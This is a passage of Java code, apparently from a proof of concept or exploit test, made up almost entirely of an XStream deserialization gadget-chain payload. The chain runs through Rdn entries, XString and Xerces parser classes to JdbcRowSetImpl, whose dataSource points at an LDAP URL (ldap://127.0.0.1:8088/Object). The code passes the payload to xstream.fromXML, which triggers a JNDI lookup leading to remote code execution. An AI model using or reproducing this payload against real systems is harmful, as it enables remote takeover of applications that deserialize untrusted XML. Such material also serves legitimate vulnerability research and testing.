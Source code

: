 ```java
        "          <m__shouldStripWS>false</m__shouldStripWS> " +
        "          <m__indexing>false</m__indexing> " + "          <m__incrementalSAXSource class='com.sun.org.apache.xml.internal.dtm.ref.IncrementalSAXSource_Xerces'> " +
        "            <fPullParserConfig class='com.sun.rowset.JdbcRowSetImpl' serialization='custom'> " +
        "              <javax.sql.rowset.BaseRowSet> " +
        "                <default> " +
        "                  <concurrency>1008</concurrency> " +
        "                  <escapeProcessing>true</escapeProcessing> " +
        "                  <fetchDir>1000</fetchDir> " +
        "                  <fetchSize>0</fetchSize> " +
        "                  <isolation>2</isolation> " +
        "                  <maxFieldSize>0</maxFieldSize> " +
        "                  <maxRows>0</maxRows> " +
        "                  <queryTimeout>0</queryTimeout> " +
        "                  <readOnly>true</readOnly> " +
        "                  <rowSetType>1004</rowSetType> " +
        "                  <showDeleted>false</showDeleted> " +
        "                  <dataSource>ldap://127.0.0.1:8088/Object</dataSource> " +
        "                  <listeners/> " +
        "                  <params/> " +
        "                </default> " +
        "              </javax.sql.rowset.BaseRowSet> " +
        "              <com.sun.rowset.JdbcRowSetImpl> " +
        "                <default/> " +
        "              </com.sun.rowset.JdbcRowSetImpl> " +
        "            </fPullParserConfig> " +
        "            <fConfigSetInput> " +
        "              <class>com.sun.rowset.JdbcRowSetImpl</class> " +
        "              <name>setAutoCommit</name> " +
        "              <parameter-types> " +
        "                <class>boolean</class> " +
        "              </parameter-types> " +
        "            </fConfigSetInput> " +
        "            <fConfigParse reference='../fConfigSetInput'/> " +
        "            <fParseInProgress>false</fParseInProgress> " +
        "          </m__incrementalSAXSource> " +
        "          <m__walker> " +
        "            <nextIsRaw>false</nextIsRaw> " +
        "          </m__walker> " +
        "          <m__endDocumentOccured>false</m__endDocumentOccured> " +
        "          <m__idAttributes/> " +
        "          <m__textPendingStart>-1</m__textPendingStart> " +
        "          <m__useSourceLocationProperty>false</m__useSourceLocationProperty> " +
        "          <m__pastFirstElement>false</m__pastFirstElement> " +
        "        </m__dtm> " +
        "        <m__dtmIdentity>1</m__dtmIdentity> " +
        "      </m__DTMXRTreeFrag> " +
        "      <m__dtmRoot>1</m__dtmRoot> " +
        "      <m__allowRelease>false</m__allowRelease> " +
        "    </value> " +
        "  </javax.naming.ldap.Rdn_-RdnEntry> " +
        "  <javax.naming.ldap.Rdn_-RdnEntry> " +
        "    <type>ysomap</type> " +
        "    <value class='com.sun.org.apache.xpath.internal.objects.XString'> " +
        "      <m__obj class='string'>test</m__obj> " +
        "    </value> " +
        "  </javax.naming.ldap.Rdn_-RdnEntry> " +
        "</sorted-set>";

        XStream xstream = new XStream();
        xstream.fromXML(xml);
    }
```